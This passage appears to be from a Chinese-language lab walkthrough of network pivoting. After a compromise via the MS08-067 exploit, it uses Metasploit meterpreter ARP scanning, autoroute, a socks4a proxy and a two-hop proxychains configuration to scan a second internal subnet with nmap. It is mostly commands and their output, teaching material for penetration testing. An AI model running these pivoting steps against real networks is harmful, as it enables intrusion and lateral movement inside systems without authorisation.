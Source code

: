 发现又出现一个8.8.8.x的网段,于是将这个网段添加路由,以便msf中的模块可以访问到8.8.8.x网段.<br>

<br>

**0x03 Step3**



先直接用新的meterpreter shell看看8.8.8.x这个网段有什么机器

```
meterpreter &gt; run post/windows/gather/arp_scanner RHOSTS=8.8.8.0/24[*] Running module against SRV03[*] ARP Scanning 8.8.8.0/24[*]   IP: 8.8.8.3 MAC 08:00:27:29:cd:cb (CADMUS COMPUTER SYSTEMS)[*]   IP: 8.8.8.1 MAC 0a:00:27:00:00:03 (UNKNOWN)[*]   IP: 8.8.8.9 MAC 08:00:27:56:f1:7c (CADMUS COMPUTER SYSTEMS)[*]    IP: 8.8.8.13 MAC 08:00:27:13:a3:b1 (CADMUS COMPUTER SYSTEMS)
```

为了让msf中所有模块都能访问到8.8.8.x网段,在新的meterpreter会话中添加路由:

```
meterpreter &gt; run autoroute -s 8.8.8.0/24[*] Adding a route to 8.8.8.0/255.255.255.0...[+] Added route to 8.8.8.0/255.255.255.0 via 7.7.7.20[*] Use the -p option to list all active routes
```

为了让Attacker的除了msf模块以外的其他应用程序能访问到8.8.8.x网段,再使用msf的开启sock4代理的模块开启另外一个端口 作为8.8.8.x网段的入口:

```
msf exploit(ms08_067_netapi) &gt; use auxiliary/server/socks4a 
msf auxiliary(socks4a) &gt; show options 
Module options (auxiliary/server/socks4a):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  172.16.0.20      yes       The address to listen on
   SRVPORT  1080             yes       The port to listen on.
Auxiliary action:
   Name   Description
   ----   -----------
   Proxy  
msf auxiliary(socks4a) &gt; set SRVPORT 1081SRVPORT =&gt; 1081msf auxiliary(socks4a) &gt; run
[*] Auxiliary module execution completed
[*] Starting the socks4a proxy server
msf auxiliary(socks4a) &gt;
```

也即现在Attacker本地的1080端口的代理可以访问到7.7.7.x网段,1081端口的代理可以访问到8.8.8.x网段,然后将新开的端口 添加到proxychains的配置文件中:



```
root@kali:~# cat /etc/proxychains.conf | grep -v "#"dynamic_chainproxy_dns tcp_read_time_out 15000tcp_connect_time_out 8000socks4  172.16.0.20 1080  # First Pivotsocks4  172.16.0.20 1081  # Second Pivot
```

上面的两个代理相当于扇门的钥匙,172.16.0.20:1080是7.7.7.x的钥匙,172.16.0.20:1081是7.7.7.x后面的8.8.8.x的钥匙 ,Attacker要想访问到8.8.8.x可以通过先打开7.7.7.x的门,再打开8.8.8.x的门(因为8.8.8.x这个门在7.7.7.x这个门之后)

使用Attacker本地的nmap扫描下8.8.8.x网段:

```
root@kali:~# proxychains nmap -sT -sV -p21,22,23,80 8.8.8.9 -n -Pn -vvProxyChains-3.1 (http://proxychains.sf.net)Starting Nmap 7.25BETA1 ( https://nmap.org )Nmap wishes you a merry Christmas! Specify -sX for Xmas Scan (https://nmap.org/book/man-port-scanning-techniques.html).NSE: Loaded 36 scripts for scanning.
Initiating Connect Scan
Scanning 8.8.8.9 [4 ports]
|D-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;-172.16.0.20:1081-&lt;&gt;&lt;&gt;-8.8.8.9:21-&lt;&gt;&lt;&gt;-OK
Discovered open port 21/tcp on 8.8.8.9|D-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;-172.16.0.20:1081-&lt;&gt;&lt;&gt;-8.8.8.9:23-&lt;&gt;&lt;&gt;-OK
Discovered open port 23/tcp on 8.8.8.9|D-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;-172.16.0.20:1081-&lt;&gt;&lt;&gt;-8.8.8.9:22-&lt;&gt;&lt;&gt;-OK
```